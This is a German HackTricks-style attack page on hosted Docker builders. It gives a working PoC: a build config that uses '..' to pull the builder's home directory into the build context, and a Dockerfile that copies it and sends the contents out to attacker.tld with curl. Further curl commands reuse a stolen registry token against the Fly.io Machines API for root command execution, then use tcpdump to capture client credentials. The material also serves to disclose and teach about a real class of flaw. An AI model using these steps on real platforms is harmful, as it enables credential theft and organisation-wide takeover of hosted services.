 # Missbrauch von Docker Build Context in Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Wenn eine CI/CD-Plattform oder ein hosted builder Beitragenden erlaubt, den Docker build context path und den Dockerfile path anzugeben, kannst du häufig den Kontext auf ein übergeordnetes Verzeichnis (z. B. "..") setzen und Host-Dateien Teil des build context machen. Dann kann ein attacker-controlled Dockerfile mittels COPY Secrets aus dem Home des build user exfiltrate (zum Beispiel ~/.docker/config.json). Gestohlene Registry-Tokens können auch gegen die control-plane APIs des Providers funktionieren und org-weite RCE ermöglichen.

## Angriffsfläche

Viele hosted builder/registry services verfahren ungefähr so, wenn sie vom Benutzer eingereichte images bauen:
- Liest eine repo-level config, die Folgendes enthält:
- build context path (an den Docker daemon gesendet)
- Dockerfile path relativ zu diesem Kontext
- Kopiert das angegebene build context-Verzeichnis und die Dockerfile zum Docker daemon
- Baut das image und startet es als hosted service

Wenn die Plattform den build context nicht kanonisiert und einschränkt, kann ein Nutzer ihn auf einen Ort außerhalb des Repositories setzen (path traversal), wodurch beliebige Host-Dateien, die vom build user gelesen werden können, Teil des build context werden und im Dockerfile mit COPY verfügbar sind.

Praktische Einschränkungen, die häufig beobachtet werden:
- Die Dockerfile muss sich innerhalb des gewählten context path befinden und ihr Pfad muss im Voraus bekannt sein.
- Der build user muss Lesezugriff auf die im Kontext enthaltenen Dateien haben; spezielle Device-Dateien können das Kopieren unterbrechen.

## PoC: Path traversal via Docker build context

Beispiel für eine bösartige Serverkonfiguration, die eine Dockerfile innerhalb des parent directory context deklariert:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Hinweise:
- Die Verwendung von ".." führt häufig auf das Home-Verzeichnis des builder-Benutzers (z. B. /home/builder), das typischerweise sensible Dateien enthält.
- Platziere dein Dockerfile unter dem Verzeichnisnamen des repo (z. B. repo "test" → test/Dockerfile), damit es innerhalb des erweiterten übergeordneten Kontexts bleibt.

## PoC: Dockerfile zum Einlesen und exfiltrieren des Host-Kontexts
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Targets, die häufig aus $HOME wiedergefunden werden:
- ~/.docker/config.json (registry auths/tokens)
- Andere cloud/CLI Caches und Konfigurationen (z. B., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tipp: Selbst mit einer .dockerignore im Repository bestimmt die verwundbare platform-side context selection weiterhin, was an den daemon gesendet wird. Wenn die Plattform den gewählten Pfad an den daemon kopiert, bevor sie die .dockerignore in deinem repo auswertet, können Host-Dateien trotzdem offengelegt werden.

## Cloud pivot mit overprivileged tokens (Beispiel: Fly.io Machines API)

Einige Plattformen geben ein einzelnes bearer token aus, das sowohl für die container registry als auch für die control-plane API genutzt werden kann. Wenn du einen registry token exfiltrierst, probiere ihn gegen die provider API aus.

Beispielhafte API-Aufrufe gegen Fly.io Machines API unter Verwendung des gestohlenen Tokens aus ~/.docker/config.json:

Apps in einer org auflisten:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Führe einen Befehl als root innerhalb einer beliebigen Maschine einer App aus:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Ergebnis: org-wide remote code execution über alle gehosteten Apps, sofern das Token ausreichende Privilegien besitzt.

## Secret theft von kompromittierten gehosteten Services

Mit exec/RCE auf gehosteten Servern kannst du client-supplied secrets (API keys, tokens) erbeuten oder prompt-injection attacks durchführen. Beispiel: tcpdump installieren und HTTP traffic auf Port 8080 mitschneiden, um inbound credentials zu extrahieren.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Erfasste Requests enthalten häufig Client-Anmeldeinformationen in Headern, im Body oder in Query-Parametern.

## Referenzen

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}

